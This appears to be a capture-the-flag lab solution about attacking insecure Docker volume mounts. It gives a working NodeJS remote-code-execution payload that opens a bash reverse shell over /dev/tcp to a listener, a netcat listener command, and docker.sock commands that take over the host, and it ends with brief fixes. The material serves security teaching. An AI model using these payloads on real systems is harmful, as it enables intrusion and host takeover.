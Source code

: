 # Attacking insecure volume mounts - Solution

* The application is running at CTF VM. You can access it by navigating to `http://CTFVMIP`

![node app home page](images/insecure-mount-node-app.png)

* This NodeJS application is vulnerable to remote code execution (RCE) in `q` GET parameter. Access the endpoint using `http://CTFVMIP/?q="docker"`

![vulnerable parameter](images/insecure-mount-vulnerable-parameter.png)

* To exploit this RCE, we will be using below payload. Here `192.168.56.3` need to replace with your student VM IP

```bash
require("child_process").exec('bash -c "bash -i >%26 /dev/tcp/192.168.56.3/5555 0>%261"')
```

* Start the netcat listener on `student` machine to get the reverse shell

```bash
nc -lvp 5555
```

![nc listen in student vm](images/nc-student-listen.png)

* To exploit and get reverse shell use the below URL. It contains the payload to connect back to student vm. Ensure that you have replaced `192.168.56.3` with your student VM IP

```bash
http://CTFVMIP?q=require("child_process").exec('bash -c "bash -i >%26 /dev/tcp/192.168.56.3/5555 0>%261"')
```

![reverse shell exploit](images/insecure-mount-exploit.png)

* Now we will receive the reverse shell in our student vm where we listening via `nc` 

![reverse shell in nc](images/insecure-mont-reverse-shell.png)

* Now, we have shell inside the docker container, we can explore the container for post exploitation

* We can see that `ls -l /var/run/docker.sock` is available and mounted from the host system.

![docker socket](images/insecure-mount-docker-socket.png)

> **This allows attacker to access the host docker service using host option with docker client by using the UNIX socket**

* The docker client is already downloaded into the container and is at `/root/docker`

```bash
cd /root/docker/
ls -l
```

![docker client files](images/docker-client-file.png)

* To access the host resource using the `docker.sock` UNIX socket. Run the following

```bash
./docker -H unix:///var/run/docker.sock ps
./docker -H unix:///var/run/docker.sock images
```

![accessing host system using docker socket](images/accessing-host-system-using-socket.png)

* Now, we have full privilege over the host system :)


## Fixing this vulnerability

* Running the containers with limited user privileges and using rootless containers
* Also using isolated instances for the required privileges
